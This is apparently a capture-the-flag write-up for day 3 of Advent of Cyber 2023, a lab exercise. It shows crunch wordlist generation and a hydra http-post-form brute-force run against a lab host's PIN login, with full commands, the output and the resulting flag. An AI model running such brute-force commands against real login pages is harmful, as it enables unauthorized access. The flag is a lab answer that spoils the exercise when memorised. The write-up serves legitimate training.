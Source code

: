 # This is the Write Up for day 3 challenge of Advent of Cyber 2K23 CTF.

> Pratyush Prakhar (5#1NC#4N) - 12/03/2023

## Description

Everyone was shocked to discover that several critical systems were locked. But the chaos didn’t end there: the doors to the IT rooms and related network infrastructure were also locked! Adding to the mayhem, during the lockdown, the doors closed suddenly on Detective Frost-eau. As he tried to escape, his snow arm got caught, and he ended up losing it! He’s now determined to catch the perpetrator, no matter the cost.

It seems that whoever did this had one goal: to disrupt business operations and stop gifts from being delivered on time. Now, the team must resort to backup tapes to recover the systems. To their surprise, they find out they can’t unlock the IT room door! The password to access the control systems has been changed. The only solution is to hack back in to retrieve the backup tapes.

`This challenge is all about Password bruteforcing and low password complexity.`

## Solution

1. When we go to the given URL `http://<IP>:8000/`, we are greeted with an control system lock that apparently takes a *3 letter pin*. 

![Alt text](images/locker.png)

2. On examining the `page source`, we find the following
	1. The pin has to be of length 3 otherwise we will be denied access. There are some checks in place to make sure of it.
	2. The pin is posted as `pin` parameter to backend for verification.
	3. The endpoint to which it is posted - `/login.php`
	4. The total characters allowed for the pin code are `0123456789ABCDEF`. That is 16 if you can count.

![Alt text](images/ps.png)

3. As the secret complexity is fairly low (16^3), it would be okay to try a brute force attack. But how to generate all the possible combinations. There are many a methods, I am sure. Python collections come to mind or hashcat rules set. But I went with the one explained in the task. **crunch** is a simple wordlist generator based on size, characters set and rules. To create [possible pins list](hydra/possible_pins.txt), I can do the following.

```bash
$ crunch 3 3 0123456789ABCDEF                     
Crunch will now generate the following amount of data: 16384 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 4096 

000
001
002
003
004
005
006
.......
FFF
$ crunch 3 3 0123456789ABCDEF -o possible_pins.txt
Crunch will now generate the following amount of data: 16384 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 4096 

crunch: 100% completed generating output
```

4. We can now use this list and launch a `http-post-form` attack using *hydra*. This will allow us to brute force the endpoint for each possible combination and hopefully give us the correct pin to the door.
	1. *-s* : for the port
	2. *-v* : verbose to track errors

```bash
$ hydra -l '' -P possible_pins.txt 10.10.79.182 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000 -v -o pin.txt
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[DATA] max 16 tasks per 1 server, overall 16 tasks, 4096 login tries (l:1/p:4096), ~256 tries per task
[DATA] attacking http-post-form://10.10.79.182:8000/login.php:pin=^PASS^:Access denied
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
...................................................................
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/control.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.79.182:8000/error.php
[8000][http-post-form] host: 10.10.79.182   password: 6F5
[STATUS] attack finished for 10.10.79.182 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-04 01:03:55
```

5. No controls for the max tries. Amazing. We get our [PIN](hydra/pin.txt).

6. Let's use this to get back our access to the control system. We can now unlock the door and finish our today's task. Phew... saved.

![Alt text](images/cs.png)
\
![Alt text](images/flag.png)


## Brownie Points

1. Using crunch and hydra, find the PIN code to access the control system and unlock the door. What is the flag?- **THM{pin-code-brute-force}**.
